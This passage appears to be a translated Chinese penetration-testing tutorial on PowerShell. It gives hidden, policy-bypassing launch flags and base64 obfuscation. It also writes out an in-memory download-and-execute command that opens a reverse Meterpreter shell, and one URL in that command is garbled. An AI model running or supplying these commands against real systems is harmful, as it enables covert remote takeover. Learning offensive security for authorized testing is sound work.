 # 用PowerShell启动

PowerShell已经改变了渗透测试的游戏规则。如果你没有PowerShell的任何经验，我强烈建议你花费一些时间写一些基本的PowerShell脚本。如果你需要一些PowerShell入门的东西，你可以看这个视频：

- Intro to PowerShell Scripting for Security: http://bit.ly/1MCb7EJ

这个视频有点长，但它能带你入门PowerShell。

我为什么如此强调PowerShell? PowerShell对渗透测试有如下好处：

- 默认安装在Windows7+
- PowerShell脚本可以在内存中运行
- 几乎永远也不会触发病毒
- 利用.NET框架
- 可利用用户证书(用于查询活动目录)
- 可以用于管理活动目录
- 可远程执行PowerShell脚本
- 使得Windows脚本攻击更容易
- 许多工具内置于PowerShell

你总是能通过在Windows终端中键入"powershell"来进入PowerShell，一旦进入PowerShell可通过键入"help"来查看帮助菜单。以下是本书中使用的一些PowerShell命令和设置。

- -Exec Bypass: 绕过安全执行保护
   - 这个非常重要！PowerShell默认不执行PowerShell命令或文件。执行这条命令你就可以绕过这个设置。本书中我们几乎每一节都会使用它。
- -NonI: 非交互模式 - PowerShell不会给用户提供交互提示
- -NoProfile(或 -NoP): 强制PowerShell不去加载用户配置
- -noexit: 执行后shell不会退出。这对于像keyloggers这样脚本很重要，这样就可以继续执行
- -W Hidden: 为回话设置窗口样式。这样命令提示就会隐藏
- 32位/64位PowerShell:
   - 这也很重要。一些脚本只能在特定的平台运行。如果你使用的是64位系统，你就需要运行64位PowerShell
   - 32位PowerShell: powershell.exe -NoP -NonI -W Hidden -Exec Bypass
   - 64位PowerShell: %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass

为了让你更好的了解PowerShell，这里有一些常用的命令：

第一条命令会从服务器下载一个PowerShell脚本并执行它。在许多例子中，我们会用以下命令下载一个Meterpreter PowerShell脚本：
- Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('[PowerShell URL]'); [Parameters]

例如，如果我们想要运行Meterpreter Shell，我们需要下载以下脚本：
- https://raw.githubusercontent.com/cheetz/PowerSploit/master/CodeExecution/Invoke--Shellcode.ps1

我们需要知道使用哪些参数。查看参数的最简单的方法是阅读PowerShell脚本的源码。即查看Invoke--Shellcode.ps1文件。如果我们看的Invoke--Shellcode.ps1文件是由Mattifestation写的，那么就可以看到如何调起一个reverse-https Meterpreter shell。

我们最终的PowerShell命令会像这样：
- Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerSploi-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80

假设你已经下载了这个文件在目标主机中，你就不需要下载后再执行。可以在本地执行：
- powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "& {Import-Module [Path and File of PowerShell Script]; [Parameters]}"

最后，在本书中我通常使用base64编码的PowerShell脚本，这样可以混淆和压缩代码。运行编码后的脚本：
- powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc [Base64 Code]


